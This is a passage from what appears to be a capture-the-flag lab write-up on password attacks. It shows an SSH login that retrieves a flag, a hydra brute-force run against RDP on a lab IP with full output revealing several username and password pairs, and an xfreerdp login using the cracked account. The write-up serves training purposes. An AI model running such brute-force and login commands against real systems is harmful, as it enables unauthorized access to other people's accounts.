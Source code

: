 ```c
ssh dennis@10.129.212.54 
```

```c
dennis@WINSRV C:\Users\dennis\Desktop>dir 
 Volume in drive C has no label.      
 Volume Serial Number is 2683-3D37    

 Directory of C:\Users\dennis\Desktop 

01/05/2022  09:16 AM    <DIR>          .
01/05/2022  09:16 AM    <DIR>          ..
01/05/2022  09:39 AM                15 flag.txt
               1 File(s)             15 bytes
               2 Dir(s)  26,288,082,944 bytes free

dennis@WINSRV C:\Users\dennis\Desktop>type flag.txt 
HTB{Let5R0ck1t} 
```

3. Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
```c
hydra -L username.list -P password.list rdp://10.129.212.54
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-11 21:41:09
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 21112 login tries (l:104/p:203), ~5278 tries per task
[DATA] attacking rdp://10.129.212.54:3389/
[3389][rdp] account on 10.129.212.54 might be valid but account not active for remote desktop: login: john password: november, continuing attacking the account.
[STATUS] 129.00 tries/min, 129 tries in 00:01h, 20983 to do in 02:43h, 4 active
[3389][rdp] account on 10.129.212.54 might be valid but account not active for remote desktop: login: dennis password: rockstar, continuing attacking the account.
[STATUS] 111.00 tries/min, 333 tries in 00:03h, 20779 to do in 03:08h, 4 active
[3389][rdp] host: 10.129.212.54   login: chris   password: 789456123
[ERROR] freerdp: The connection failed to establish.
```

So our creds: chris:789456123
We will rdp with xfreerdp to get flag:
```c
xfreerdp /v:10.129.212.54 /u:chris /p:789456123
```

